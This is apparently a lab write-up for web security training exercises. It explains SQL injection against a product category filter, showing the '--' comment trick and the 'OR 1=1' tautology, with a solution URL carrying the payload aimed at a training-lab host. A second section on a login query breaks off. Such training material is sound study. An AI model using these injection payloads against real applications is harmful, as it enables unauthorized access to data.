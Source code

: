 
## **SQL Injection 1**
### Analysis
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

#### Injected Query 2:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.
- Since `1=1` is always true, the query returns all products, not just those in the 'Gifts' category or those that are released.


### Solution 
```
https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--
```

## **SQL Injection 2**
### Analysis
#### Original Query:
```SQL
SELECT firstame FROM users WHERE username='admin' AND password = 'admin'
```

#### Injected Query 1:
